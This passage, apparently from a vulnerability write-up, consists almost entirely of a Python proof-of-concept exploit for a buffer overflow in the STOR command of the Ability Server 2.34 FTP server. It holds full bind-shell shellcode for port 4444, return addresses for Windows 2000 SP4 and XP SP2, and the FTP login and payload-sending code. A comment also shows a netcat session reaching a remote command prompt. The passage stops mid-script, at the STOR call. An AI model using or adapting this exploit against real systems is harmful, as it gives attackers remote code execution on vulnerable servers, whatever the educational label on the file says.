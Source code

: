 **PoC**:
Modifications to the existing exploit were needed and are marked with comments:

```python
  ###################################
  # Ability Server 2.34 FTP STOR Buffer Overflow
  # Advanced, secure and easy to use FTP Server.
  # 21 Oct 2004 - muts
  ###################################
  # D:\BO>ability-2.34-ftp-stor.py
  ###################################
  # D:\data\tools>nc -v 127.0.0.1 4444
  # localhost [127.0.0.1] 4444 (?) open
  # Microsoft Windows XP [Version 5.1.2600]
  # (C) Copyright 1985-2001 Microsoft Corp.
  # D:\Program Files\abilitywebserver>
  ###################################

  import ftplib
  from ftplib import FTP
  import struct
  print "\n\n################################"
  print "\nAbility Server 2.34 FTP STOR buffer Overflow"
  print "\nFor Educational Purposes Only!\n"
  print "###################################"

  # Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

  sc = "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
  sc += "\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
  sc += "\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
  sc += "\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
  sc += "\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
  sc += "\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
  sc += "\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
  sc += "\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
  sc += "\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
  sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
  sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
  sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
  sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
  sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
  sc += "\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
  sc += "\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
  sc += "\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
  sc += "\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
  sc += "\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
  sc += "\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
  sc += "\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
  sc += "\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
  # Change RET address if need be.
  buffer = '\x41'*966+struct.pack('<L', 0x7C2FA0F7)+'\x42'*32+sc # RET Windows 2000 Server SP4
  #buffer = '\x41'*970+struct.pack('<L', 0x7D17D737)+'\x42'*32+sc # RET Windows XP SP2
  try:
      # Edit the IP, Username and Password.
      ftp = FTP('127.0.0.1')
      ftp.login('ftp','ftp')
      print "\nEvil Buffer sent..."
      print "\nTry connecting with netcat to port 4444 on the remote machine."
  except:
      print "\nCould not Connect to FTP Server."

  try:
      ftp.transfercmd("STOR " + buffer)
```